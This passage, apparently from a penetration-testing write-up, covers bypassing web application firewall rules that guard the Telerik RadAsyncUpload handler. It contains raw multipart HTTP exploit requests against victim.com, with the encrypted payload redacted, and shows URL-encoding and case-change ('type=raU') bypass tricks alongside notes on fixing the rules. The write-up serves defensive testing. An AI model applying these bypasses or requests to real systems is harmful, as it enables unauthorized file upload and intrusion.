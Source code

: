 RAU\_crypto.bypass  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="contentType"  
​  
text/html  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="lastModifiedDate"  
​  
2019-01-02T03:04:05.067Z  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="metadata"  
​  
{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":1,"UploadID":"test\_12421498329494.txt"}  
\-----------------------------62616f37756f2f--  
​

Response:

HTTP/1.1 200 OK  
Cache-Control: private  
Content-Type: text/html; charset=utf-8  
Date: Thu, 07 May 2020 16:11:22 GMT  
Content-Length: 667  
Connection: close  
​  
{"fileInfo":{"FileName":"RAU\_crypto.bypass","ContentType":"text/html","ContentLength":135,"DateJson":"2019-01-02T03:04:05.067Z","Index":0}, "metaData":"\[Base64 Metadata\]" }

It was observed that the custom rules developed for the specific WAF did **not perform normalization by default** on the path and query string parameters and therefore are unable to detect URL encoded characters.

To address this bypass, the client was assisted in finding the WAF functionality that allowed to normalize the query string parameter of the request and detect any URL encoded parameters in the "_type=rau_" parameter.

_"So, all is good now, right?"_

_Not quite..._

**\-** **3rd WAF Rule: the "case" is still open**

A regression test was then performed in order to be sure that the vulnerability was patched. However, although the URL encoding did not lead to a bypass anymore, it was found that the endpoint was **case insentive!**

In fact, by specifying the value "_raU_" within the "_type_" parameter it was still valid as shown in the following request:

POST /Telerik.Web.UI.WebResource.axd?type=raU HTTP/1.1  
Host: victim.com  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86\_st64; rv:75.0) Gecko/20100101 Firefox/75.0  
Accept: \*/\*  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Connection: close  
Content-Type: multipart/form-data; boundary=---------------------------62616f37756f2f  
Connection: close  
Content-Length: 2345  
​  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="rauPostData"  
​  
ATTu5i4R+ViNFY\[Encrypted rauPostData Payload in base64\]mUFAlzLUg==  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="file"; filename="blob"  
Content-Type: application/octet-stream  
​  